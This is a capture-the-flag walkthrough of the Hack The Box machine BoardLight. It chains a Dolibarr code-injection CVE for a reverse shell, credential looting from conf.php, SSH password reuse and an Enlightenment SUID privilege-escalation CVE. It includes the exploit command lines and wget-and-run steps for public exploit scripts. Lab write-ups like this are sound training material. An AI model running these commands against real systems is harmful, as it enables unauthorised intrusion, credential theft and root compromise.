 🔦 HTB: BoardLight — Full Walkthrough

Machine Name: BoardLight
Difficulty: Easy
Categories: CVE Exploitation, Web App, Local PrivEsc

🧠 Summary

The BoardLight machine follows a simple exploit chain involving two public CVEs and basic enumeration:

    📦 CVE-2023-30253 (Dolibarr PHP Code Injection) for initial access

    🔐 Credentials harvested from conf.php

    ⬆️ CVE-2022-37706 (Enlightenment SUID LPE) for root

Let’s break it down step by step.
🔍 Recon & Enumeration

Started with the usual:

nmap -sC -sV -Pn <target-ip>

Results:

    Port 22: SSH

    Port 80: HTTP

Navigated to http://<ip> → generic page, nothing useful aside from revealing the domain: board.htb.
🔎 Subdomain Discovery

Used ffuf to fuzz for virtual hosts:

ffuf -u http://board.htb -H "Host: FUZZ.board.htb" -w subdomains.txt

Found: crm.board.htb
🔐 CRM Login Page (Dolibarr v17.0.0)

The subdomain hosted a Dolibarr ERP login page. The version 17.0.0 was clearly visible.

Googled the version → Vulnerable to CVE-2023-30253.
🎯 Vulnerability: CVE-2023-30253 (RCE in Dolibarr)

Exploit: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

The vulnerability arises from improper input validation, allowing PHP code injection via certain admin functions.
⚔️ Exploiting Dolibarr

Used the PoC script linked above. But it required valid credentials.

Tried admin:admin as default creds — and surprisingly, it worked.

Although the login had limited access, it was enough.

Set up a listener and executed:

python3 exploit.py --url http://crm.board.htb --user admin --pass admin --lhost <attacker-ip> --lport <port>

💥 Reverse shell obtained.
🔎 Post-Exploitation: Config File Loot

The initial shell wasn’t fruitful, so I hunted for Dolibarr config files.

According to Dolibarr docs, DB credentials are stored in:

/var/www/html/conf/conf.php

Found it — and extracted the main DB password.
🧑‍💻 SSH Access as larissa

Tried the recovered password against system users via SSH.

Success with:

ssh larissa@<target-ip>

🏁 Got user.txt.
🔼 Privilege Escalation with linPEAS

Ran linpeas.sh to analyze escalation paths:

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

It flagged a suspicious SUID binary: Enlightenment

🧠 Enlightenment is a lightweight desktop environment.

Found installed version: 0.23.1 — vulnerable to CVE-2022-37706
🧨 CVE-2022-37706: Enlightenment SUID LPE

Exploit: https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

This exploit abuses a path handling flaw in enlightenment_sys due to improper /dev/.. traversal logic.

Steps:

wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/main/exploit.sh
chmod +x exploit.sh
./exploit.sh

✅ Root shell obtained.
📁 Loot

    user.txt: ✅ (larissa)

    root.txt: ✅ (root via Enlightenment exploit)

